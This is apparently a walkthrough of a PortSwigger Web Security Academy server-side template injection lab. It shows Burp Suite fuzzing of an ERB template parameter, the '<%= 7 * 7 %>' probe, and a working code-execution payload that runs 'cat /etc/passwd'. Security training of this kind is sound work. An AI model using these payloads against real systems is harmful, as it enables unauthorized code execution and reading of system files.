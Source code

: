 # Portswigger
## Server-side Template Injection (SSTI)
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/

**DISCLAIMER**
- Due to the site running on Jekyll it does not want to accept any SSTI in the markup. Therefore, all curly bracket notations are changed to normal brackets i.e. { to [ and } to ].

### Basic server-side template injection
```bash

# This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

# To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

Click on the first item

GET /?message=Unfortunately this product is out of stock HTTP/1.1

Go to: HTTP history
Find:

GET /?message=test HTTP/1.1

Send to Repeater
Send to Intruder
Go to: Intruder
Payload Positions:

GET /?message=§test§ HTTP/1.1

Go to:

https://github.com/payloadbox/ssti-payloads

Copy the payloads and adjust the relevant multiplication expressions to represent 7*7
Go to: Intruder -> Payloads -> Payload Options[Simple list]
Load the SSTI enumeration file
Go to: Options
Grep - Match
Clear
Add '49'
Start attack
Note the '49' response for payload:

<%= 7 * 7 %>

https://0aec00de044f2ff0c06d595a00000000.web-security-academy.net/?message=<%= 7 * 7 %>

Visit:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby

Change:

<%= system('cat /etc/passwd') %>

```